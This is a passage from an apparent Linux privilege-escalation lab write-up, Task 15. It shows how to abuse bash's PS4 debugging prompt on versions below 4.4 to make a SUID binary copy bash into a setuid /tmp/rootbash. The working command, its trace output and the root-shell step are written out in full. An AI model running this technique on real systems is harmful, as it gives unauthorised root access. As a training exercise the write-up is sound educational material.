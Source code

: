 
## Task 15 - SUID / SGID Executables - Abusing Shell Features (#2)

In `bash` versions less than `4.4`, the environment variable `PS4` is used to display an extra prompt for debugging statements.

Enable `bash debugging` and set `PS4` variable to an embedded command. If the binary which has `suid` set is run, it will execute the embedded command before actual command execution.
{% capture code %}{% raw %}env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1653) already running
.{% endraw %}{% endcapture %} {% include code.html code=code %}

Execute the binary `/tmp/rootbash -p` to spawn a `privilege shell`.


## Task 16 - Passwords & Keys - History Files
